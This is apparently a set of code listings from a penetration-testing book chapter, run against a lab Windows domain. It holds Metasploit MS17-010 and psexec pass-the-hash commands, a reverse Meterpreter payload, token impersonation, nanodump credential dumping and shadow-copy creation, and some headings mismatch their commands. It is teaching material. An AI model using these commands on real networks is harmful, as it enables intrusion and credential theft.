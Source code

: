 # Chapter 10 Instructions

### Listing 10.1 Output of the net group command

```
run this on the raditz machine
net group "Domain Admins" /domain 
```

```
Use auxiliary/admin/smb/ms17_010_command
set rhosts 10.0.10.204
set smbdomain .
set smbuser Administrator
set smbpass aad3b435b51404eeaad3b435b51404ee:de26cce0356891a4a020e7c4957afc72
set threads 10
set command qwinsta
set verbose false
run
```

### Listing 10.3 Opening a new Meterpreter session on 10.0.10.207

```
use exploit/windows/smb/psexec
set rhosts 10.0.10.208
set smbdomain .
set smbuser Administrator
set smbpass aad3b435b51404eeaad3b435b51404ee:de26cce0356891a4a020e7c4957afc72
set payload windows/x64/meterpreter/reverse_winhttps
exploit
```

### Listing 10.4 Listing available tokens with Incognito

```
load incognito
list_tokens -u
```

### Listing 10.5 Impersonating the domain admin account

```
impersonate_token capsulecorp\serveradmin
```

### Listing 10.6 Harvesting the clear-text password using Mimikatz

```
crackmapexec smb 10.0.10.207 --local-auth -u administrator -H aad3b435b51404eeaad3b435b51404ee:0e17e3e87e6750e503dc2d023f58032e -M nanodump
```

### Listing 10.7 Locating the domain controller’s IP address

```
cme smb 10.0.10.207 --local-auth -u administrator -H aad3b435b51404eeaad3b435b51404ee:0e17e3e87e6750e503dc2d023f58032e -x "cmd /c ping capsulecorp.local"
```

### Listing 10.8 Checking for an existing VSC

```
cme smb 10.0.10.200 -u serveradmin -p 'S3cr3tPa$$!' -x 'vssadmin list shadows'
```

### Listing 10.9 Creating a new VSC

```
vssadmin create shadow /for=C:
```
